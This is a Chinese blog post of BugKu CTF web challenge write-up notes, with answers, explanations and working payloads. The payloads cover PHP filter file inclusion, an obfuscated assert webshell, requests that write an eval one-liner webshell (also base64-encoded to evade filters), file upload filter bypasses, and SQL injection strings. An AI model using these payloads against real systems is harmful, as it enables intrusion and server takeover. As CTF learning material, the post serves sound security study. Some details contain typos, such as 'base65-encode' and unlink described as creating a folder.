<!--yml
category: 未分类
date: 2022-04-26 14:45:49
-->

# BugKu题解备注（1）_s11show_163的博客-CSDN博客

> 来源：[https://blog.csdn.net/s11show_163/article/details/103236522](https://blog.csdn.net/s11show_163/article/details/103236522)

> 题解链接https://blog.csdn.net/qq_40657585/article/details/83660069
> 更详细的文章https://foxgrin.github.io/categories/Bugkuctf-Web/

## 1.web2

web2查看源码这个题得到flag之后最后答案是：
KEY{Web-2-bugKssNNikls9100}

## 2.计算器

最后的答案包括flag{}


## 3.web基础$_GET

GET传参使用url传参。
https://blog.csdn.net/qq_34072526/article/details/86771621
[这个链接解释的比较清楚](https://blog.csdn.net/qq_34072526/article/details/86771621)

## 4.web基础$_POST

两种方法，推荐万能脚本法，不限定浏览器：

```
import requests

s = requests.Session()
r = s.get("http://123.206.87.240:8002/post/")
values={'what':'flag'}
r = s.post("http://123.206.87.240:8002/post/",values)

print(r.text) 
```

学会写脚本呀要！sublime cttl+B运行
答案是flag{bugku_get_ssseint67se}

*   法二 浏览器法：
    安装不需要付费的Max HackBar:

> https://addons.mozilla.org/zh-CN/firefox/addon/max-hackbar/?src=search

点击Execution既得flag

## 5.矛盾

这段代码翻译过来的意思是既不能是数字又要进入$num==1分支：
这里补充弱相等的知识：

> `==为弱相等，也就是说12=="12" --> true，而且12=="12cdf" --> true，只取字符串中开头的整数部分，但是1e3dgf这样的字符串在比较时，取的是符合科学计数法的部分：1e3，也就是1000.`
> [详见这篇链接](https://blog.csdn.net/s11show_163/article/details/103238785)

所以构造Payload：`http://123.206.87.240:8002/get/index1.php?num=1c`
后面跟字母或者%00、%20截断符号也可
答案：flag{bugku-789-ps-ssdf}

## 6.web3



*   要让页面停止刷新才能f12看到源码
*   用unicode解码。
*   KEY{J2sa42ahJK-HS11III}

## 7.域名解析

*   把弹框中的ip和域名对应写在C:\Windows\System32\drivers\etc中，注意是你自己题目上的ip和域名，不要设置成了其他教程上的。
*   KEY{DSAHDSJ82HDS2211}

## 8.你必须要让他停下

*   打开burpsuite抓包，不停抓包然后点金Burpsuite的HTTPHistory逐个查看访问网址的response选项卡即得flag：
*   flag{dummy_game_1s_s0_popular}

## 10.变量1

```
flag{92853051ab894a64f7865cf3c2128b34} 
```

```
<?php
error_reporting(0);
include "flag1.php";  
highlight_file(__file__);  
if(isset($_GET['args'])){
    $args = $_GET['args'];  
    if(!preg_match("/^\w+$/",$args)){  
        die("args error!");
    } 
    eval("var_dump($$args);");  

?> 
```

引入php可变变量（$$）的概念：

> 可变变量允许动态改变一个变量名后才能，即将内层变量的value当成外层变量的name。实例代码如下：

```
 <?php
> $change_name = "trans";
> $trans = "You can see me!";
> echo $change_name;
> echo "<br>"
> echo $$change_name;
> ?>
> 结果为：trans
> You can see me! 
```

所以这个题里的最后一句的意思是显示args=后面跟着的参数所代表的变量的value，于是输入GLOBAL则显示全局变量数组的值。

```
http://120.24.86.145:8004/index1.php?args=GLOBALS 
```

ps.还记得吗，

*   GET方法用url传参;
*   POST方法用脚本{‘name’:‘value’}或者浏览器MAXHackBar传参

## 11.web5

这个是JSPFUCK的编程风格所以单写一篇

> https://blog.csdn.net/s11show_163/article/details/103257367

## 12.头等舱

这个是自己做出来哒！
思路就是：
先看源代码，一个标签一个标签展开看仔细
然后抓包，request没有就翻HttpHistory看response：
虽然这个题很简单吧，但是要继续加油！

## 13.网页被黑

后台隐藏界面、爆破另写一篇：

> https://blog.csdn.net/s11show_163/article/details/103261521

## 14.管理员系统

伪造本地ip 另写一篇：

> https://blog.csdn.net/s11show_163/article/details/103263109

## 15.web4

f12查看源码发现两个参数和一段字符串
**要能看出来是url编码的字符串**
解码后发现改js语句，含义是密码是67d709b2b54aa2aa648cf6e87a7114f1

```
function checkSubmit(){
var a=document.getElementById("password");
if("undefined"!=typeof a){
	if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)	
	   	return!0;
	alert("Error");
	a.focus();
	return!1
	}
}
document.getElementById("levelQuest").onsubmit=checkSubmit; 
```



*   红色框住的部分含义是执行解码后的js代码。
*   eval函数：可计算某个字符串,并执行其中的的 JavaScript 代码。
*   unescape函数：可对通过 escape() 编码的字符串进行解码。

## 16.flag在Index里：

> 这道题目里有经典的本地文件包含漏洞+php伪协议的结合应用

看到index.php?/file=中的file关键字想到**文件包含漏洞**
具体的会和之前的gakki中遇到的xxe、ssrf出一篇专题。
这儿只说这个题怎么做：

*   点击clickme之后将file=之后的show.php删掉换成`file=php://filter/read=convert.base65-encode/resource=index.php`
*   即可回显index.php源码，经过base64解码可见flag
*   现在具体说说`file=php://filter/read=convert.base64-encode/resource=index.php`的含义：

1.  首先这是一个file关键字的get参数传递，php://是一种协议名称，php://fileter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。
2.  通过传递这个参数可以得到index.php的源码，原因是分析index.php解码之后的源码可得，这个include函数表是从外部引入php文件并执行，如果执行不成功就返回文件的源码。
3.  而inlude的内容是由用户控制的，所以通过我们传递的file参数，是include()函数引入了index.php的bse64编码格式，因为是base64编码格式所以执行不成功，返回源码，这样我们得到了源码的base64格式，解码即可。
4.  index.php源码如下：

```
<html>
    <title>Bugku-ctf</title>

<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 

?>
</html> 
```

## 17.请输入密码查看flag

1.  f12查看跳转前后源码无flag或可疑点
2.  抓包未发现可疑点
3.  url未发现关键字（比如上题的index.php/?file=典型本地文件包含漏洞）
4.  爆破（也可从url名字判断baopo），send to intruder然后load常用密码：
    

## 18-20另写一篇

## 21.秋名山老司机

另转一篇，文章写得太好了。https://blog.csdn.net/s11show_163/article/details/103278842

## 22.web6

动态flag在响应头中：另写一篇https://blog.csdn.net/s11show_163/article/details/103280991

## 23.cookies欺骗

另写一篇 https://blog.csdn.net/s11show_163/article/details/103285818

## 24.never give up

https://blog.csdn.net/s11show_163/article/details/103286101

## 25-29打不开

## 26.过狗一句话

打不开但是原理比较重要，去回顾[bypass安全狗绕过](https://blog.csdn.net/s11show_163/article/details/104548569)的相关知识

用php的系统函数，突破低权限。

题目来自于bugku的"过狗一句话"，这道题目有接近2100人做出来，可是网上的wp并没有给出确切的原理，所以在此借这一道题目，抛砖引入。

### 一丶代码和分析

```
<?php 

    $poc="a#s#s#e#r#t"; 

    $poc_1=explode("#",$poc);  

    $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];  

    $poc_2($_GET['s']) 

    ?> 
```

### 二丶随手测试phpinfo()

`assert()`对传入的字符串当作php代码执行，所以我们第一个payload:

`http://ip/?s=phpinfo()`，相当于执行代码

```
assert(phpinfo()); 
```

大体看了下是linux，搜索下disable_functions，没有函数被禁用。

很自然的想到了用执行系统命令查看flag在哪里。

### 三丶测试系统命令能否执行

`/?s=system(‘ls’)`,发现没有反应，然后sleep一下，或者ping发现都没有反应。这里不是没有回显，因为已经知道了是`assert(system(''))`执行php代码。

没有禁用函数，并且不是回显的问题。猜测这里是用户权限太低了，所以不能执行。

### 四丶转变思路

网上的WP几乎是千篇一律:`?s=print_r(scandir('./'))`

可是大多数并没有给出实质性的回答：为什么这个就可以了？

既然这里涉及到的是linux用户的系统权限，那么我们是不是可以用php自己本身带着的系统函数呢？

回头一看 `?s=print_r(scandir('./'))` 不就是用的系统函数吗？那么开始测试相关的php系统函数。

### 五丶各种payload

#### 1.查看文件

print_r(): 就是打印出变量，那var_dump()也是可以的吧

```
?s=var_dump(scandir('/')) 
```

scandir():列出目录中的文件和目录，我们也可以直接用glob()函数查看文件

```
?s=var_dump(glob('/*')) 
```

用file_get_contents()读取文件内容:

```
?s=print_r(file_get_contents("./index.php")) 
```

#### 2.删除文件

unlink()，删除指定的文件。为了演示，我自己新建了个test1文件在当前的目录，文件的创建在后边会说。

```
?s=unlink('test1') 
```

#### 3.对文件改名

rename(old,new)

```
?s=rename('test2','test3') test2文件名字改为test3 (test2也是为了演示刚刚建立的) 
```

#### 4.创建或删除文件夹

```
?s=unlink('test') 创建test文件夹 
```

```
/?s=rmdir('test') 删除test文件夹 
```

#### 5.写文件

fwrite()函数写入个小马，然后用蚁剑连上去试试。

```
?s=fwrite(fopen('./zzz.php','w+'),'<?php%20@eval($_POST[pass]);?>')) 
```

顺便再给出一种绕过关键词的方式

```
?s=fwrite(fopen('./zaq.php','w+'),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW3Bhc3NdKTs/Pg==")) 
```



## 30.你从哪里来

burp抓包将请求头的referer改为http://www.google.com


## 31.md5 collision(NUPT_CTF)

> 另写一篇 https://blog.csdn.net/s11show_163/article/details/104582754

## 33.各种绕过



*   这个题要求get传递id的url解码之后值是margin，发现‘margin’进行url加密解密都是本身
*   并且要求get传递的uname和post传递的passwd值在进行sha1加密之后的值和类型都相等但是加密前的值又不能相等，这要怎么办呢？
*   sha1加密数组的时候会无法处理导致`sha1($_GET['uname'])`和`sha1($_POST['passwd'])`的返回值都为null这就绕过了强相等。

> **上面两题分别是Md5绕过弱相等和sha1绕过强相等**

## 32.本地网站访问


抓包添加referer和xff头伪造本地访问。

## 34.web8

考察php的extra、trim、file_get_contents函数
方法一：

先根据 题目提示 txt??? 访问 flag.txt，发现其中内容 flags


`$ac`是指flag.txt中的内容flags，`$fn`指的是flag.txt这个文件

```
Payload：

?ac=flags&fn=flag.txt 
```

方法二：

想得到flag，要达到下面三个条件：

*   就要让ac的值不为空
*   f的值从文件fn中获取
*   ac的值要恒等于f的值

```
Payload：

    ?ac=123&fn=php://input
    [POST]123 
```




这就是本题的两种方法。

## 35.细心

打开 页面显示：

没什么 特别的提示。

用御剑扫描一下，发现一个rebots.txt：

在robots.txt下发现如下内容：

robots.txt是网站爬虫规则的描述。

打开resusl.php:

根据题目一开始给的提示，想办法变成admin

```
即Payload：

http://123.206.87.240:8002/web13/resusl.php?x=admin 
```



## 36.求getshell

**本题考察文件上传漏洞加一句话木马（内含三个绕过，十分重要）**

首先写一个一句话木马


开启代理，打开burpsuit ，上传.php文件 抓包
（可能需要多抓几次哦~ 因为有时候可能抓不到呢~ ）

一共三个过滤

*   请求头部的 Content-Type
*   文件后缀
*   请求数据的Content-Type

这里是黑名单过滤来判断文件后缀，依次尝试php4，phtml，phtm，phps，php5（包括一些字母改变大小写）
最终发现，php5可以绕过
接下来，请求数据的Content-Type字段改为 image/jpeg
但是一开始没注意到，上面还有一个请求头Content-Type字段，大小写绕过： mULtipart/form-data;

1.修改请求头部的 Content-Type：
2.修改后缀名：


3.  修改请求数据的Content-Type：
    Go一下
    

完成！
参考资料：

https://www.cnblogs.com/52fhy/p/5436673.html

## 37.insert into 注入

另写一篇[xff注入+逗号屏蔽+时间注入+insert into注入](https://blog.csdn.net/s11show_163/article/details/104645900)

## 39.bugku学习之39.多次（检查过滤双写绕过过滤以及报错注入）

考察：

*   过滤的判断length
*   异或符号的使用：`id=1’ ^ (length(‘order’)!=0)%23`
*   双写绕过关键词过滤：`id=1’ oorrder by 3%23、 id=0’ uunionnion sselectelect 1,database()%23`
*   无法双写绕过时的盲注报错注入：`http://123.206.87.240:9004/Once_More.php?id=1' and extractvalue(1,concat(0x3a,database(),0x3a))%23`

另写一篇[过滤检查+双写绕过str_repalce+报错注入](https://blog.csdn.net/s11show_163/article/details/104660675)

## 40.PHP_encrypt_1(ISCCCTF)

考察：对应解密文件的编写。
这题直接给了一个php源文件

```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
output: fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA= 
```

审计后发现是一个加密的过程，给了最后的输出，需要我们自己编写解密的过程，根据加密的过程一步步解密，decrypt代码如下：

```
<?php

function decrypt($str){
	$str = base64_decode($str); 
	$key = md5('ISCC'); 
	$x = 0; 
	$len = strlen($str); 
	$klen = strlen($key); 
	$char = ''; 
	$data = ''; 
	for($i = 0; $i < $len; $i++){ 
		if($x == $klen){
			$x = 0;
		}
		$char .= $key[$x];
		$x += 1;
	}
	for($i = 0; $i < $len; $i++){ 
		if(ord($str[$i]) < ord($char[$i])){ 
			$data .= chr((ord($str[$i]) + 128) - ord($char[$i])); 
		} 
		else{
			$data .= chr(ord($str[$i]) - ord($char[$i]));
		}
	}
	return $data;
}

$str = "fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=";
$data = decrypt($str);
echo $data;

?> 
```

编写后放到Phpstudy目录的www文件夹下浏览器运行可得到如下结果：


## 42.flag.php

题目提示:
猜想在url后面加入参数?hint
得到源码如下图：
读代码可以发现cookies中的参数ISEcer的值反序列化后等于key的值的话就输出flag值，也就是说ISEcer的值要等于key序列化之后的值：
先写个demo，把$KEY序列化后的值打印出来：

```
<?php
$KEY = 'ISecer:www.isecer.com';
$KEY = serialize($KEY);
echo $KEY;
?> 
```

然后用burp提交cookie

没反应…很奇怪，想了很久，看了好久源代码才发现，$KEY值是定义在最后面的，前面是为空的，所以应该提交空字符串的序列化值…很坑

空字符串序列化值：s:0:””;

再次burp提交

拿到flag

## 43.bugku学习之43.sql注入2（只剩下from没过滤其余的全部过滤）

考察：

*   逗号被过滤：substr（from for）或者mid(from for)截断
*   for被过滤：不使用for则mid(from)默认截断到字符串位
*   空格被过滤：不使用空格
*   admin字符串与另一个字符串比较时会被翻译成0或者空格
    所以’admin’-’‘的意思是减去空字符串，所以值为0，更深远的’admin’-0-’‘先减去0再减去空字符串，值也为0，而’admin’-1-’'的值则为1。
*   此题为post注入已经具有首尾两个单引号于是只需要在输入框输入admin’-1-‘和admin’-0-'即可。由此1和0的位置可以替换为注入查询的字符串比如：

```
(ascii(mid(reverse(mid((passwd)from(-%d)))from(-1)))=%d) 
```

具体见连接：[sql注入全部过滤绝人之境](https://blog.csdn.net/s11show_163/article/details/104686969)